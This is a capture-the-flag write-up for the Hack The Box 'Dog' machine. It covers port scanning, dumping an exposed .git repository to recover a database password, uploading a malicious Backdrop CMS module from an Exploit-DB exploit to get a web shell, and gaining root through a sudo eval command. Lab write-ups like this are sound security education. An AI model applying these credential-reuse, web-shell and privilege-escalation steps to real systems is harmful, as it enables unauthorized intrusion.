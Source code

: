 ```yaml
---
title: Dog"
date: 2024-03-17
draft: false
description: HackTheBox's Good Room
Tags:
- HackTheBox
- Linux
- Easy
---
```




## Enumeration

```
nmap -sVC 10.10.11.58             
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-09 11:37 +0545
Nmap scan report for 10.10.11.58 (10.10.11.58)
Host is up (0.21s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE    SERVICE            VERSION
22/tcp    open     ssh                OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp    open     http               Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Home | Dog
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
2119/tcp  filtered gsigatekeeper
2605/tcp  filtered bgpd
2909/tcp  filtered funk-dialout
5214/tcp  filtered unknown
5225/tcp  filtered hp-server
6881/tcp  filtered bittorrent-tracker
31337/tcp filtered Elite
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.50 seconds
```

```
rustscan -a 10.10.11.58             
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Port scanning: Making networking exciting since... whenever.

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.11.58:22
Open 10.10.11.58:80
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-09 11:38 +0545
Initiating Ping Scan at 11:38
Scanning 10.10.11.58 [4 ports]
Completed Ping Scan at 11:38, 0.23s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:38
Completed Parallel DNS resolution of 1 host. at 11:38, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 11:38
Scanning 10.10.11.58 (10.10.11.58) [2 ports]
Discovered open port 22/tcp on 10.10.11.58
Discovered open port 80/tcp on 10.10.11.58
Completed SYN Stealth Scan at 11:38, 0.34s elapsed (2 total ports)
Nmap scan report for 10.10.11.58 (10.10.11.58)
Host is up, received echo-reply ttl 63 (0.23s latency).
Scanned at 2025-03-09 11:38:21 +0545 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.81 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```

![](Pasted%20image%2020250309114042.png)

Contents of robots.txt.
```
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html
#
# For syntax checking, see:
# http://www.robotstxt.org/checker.html

User-agent: *
Crawl-delay: 10
# Directories
Disallow: /core/
Disallow: /profiles/
# Files
Disallow: /README.md
Disallow: /web.config
# Paths (clean URLs)
Disallow: /admin
Disallow: /comment/reply
Disallow: /filter/tips
Disallow: /node/add
Disallow: /search
Disallow: /user/register
Disallow: /user/password
Disallow: /user/login
Disallow: /user/logout
# Paths (no clean URLs)
Disallow: /?q=admin
Disallow: /?q=comment/reply
Disallow: /?q=filter/tips
Disallow: /?q=node/add
Disallow: /?q=search
Disallow: /?q=user/password
Disallow: /?q=user/register
Disallow: /?q=user/login
Disallow: /?q=user/logout
```

And lots of things in directory busting.
![](Pasted%20image%2020250309121509.png)

And the directories and queries from robots.txt in not valid.

```
admin/config/development/configuration/sync
```

We can use [GitTools](https://github.com/internetwache/GitTools) to dump data and file from .git directory.

![](Pasted%20image%2020250309122744.png)

`BackDropJ2024DS2024`

```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
$database_prefix = '';

```


And can find email.
`0-8204779c764abd4c9d8d95038b6d22b6a7515afa/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json`
![](Pasted%20image%2020250309140603.png)

And we logged in.
![](Pasted%20image%2020250309140657.png)

```
tiffany@dog.htb
BackDropJ2024DS2024
```

## Exploit

![](Pasted%20image%2020250309144948.png)
![](Pasted%20image%2020250309145207.png)

Now,
![](Pasted%20image%2020250309153823.png)

And we need to create a shell.tar.gz.

[exploit](https://www.exploit-db.com/exploits/52021)

It will create a shell directory.
We need to do.
`tar -czvf shell.tar.gz shell/`

And upload this tar.gz file in the thing uploading module.
![](Pasted%20image%2020250309154248.png)

And now after doing that we need to load that.
![](Pasted%20image%2020250309154328.png)

and visit what exploit saying or `/modules/shell/shell.php`

And we will see this.
![](Pasted%20image%2020250309154145.png)

And now we can use python3 reverse shell to get stable shell.
![](Pasted%20image%2020250309154500.png)

## Privelege Escalation

Lets enumerate.
Now we can login to mysql server.
But it was a rabbithole.
![](Pasted%20image%2020250309154948.png)
![](Pasted%20image%2020250309155414.png)

`hashcat -m 7900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force`

Nothing here and we cant even crack the password of user.

And amazingly, we can use same password from before for user `johncusack`.
![](Pasted%20image%2020250309161007.png)

And now doing `sudo -l` revealed this.
![](Pasted%20image%2020250309162543.png)

And doing this came this.
![](Pasted%20image%2020250309162621.png)

So its a command to manage that backdrop cms.
But we have root priveleges.
And we can see it can use eval function of php.
![](Pasted%20image%2020250309162757.png)

So Now we can try to do privelege escalate using eval.

Lets try.
![](Pasted%20image%2020250309163256.png)

Hmm and after doing some talk with chatGPT,if we specify the `root directory of the Backdrop installation to use`,we could do so.
`sudo -u root /usr/local/bin/bee --root=/var/www/html eval 'system(whoami)'
`
![](Pasted%20image%2020250309163814.png)
I guess it worked.

Lets try.
We have to also write commands inside quotations. 
![](Pasted%20image%2020250309163909.png)

```
sudo /usr/local/bin/bee --root=/var/www/html eval 'system("/bin/bash");'

```

and we got the root.
![](Pasted%20image%2020250309164104.png)

## Done

And done.
![](Pasted%20image%2020250309164152.png)

Again lots of things learned.
I hope you enjoyed.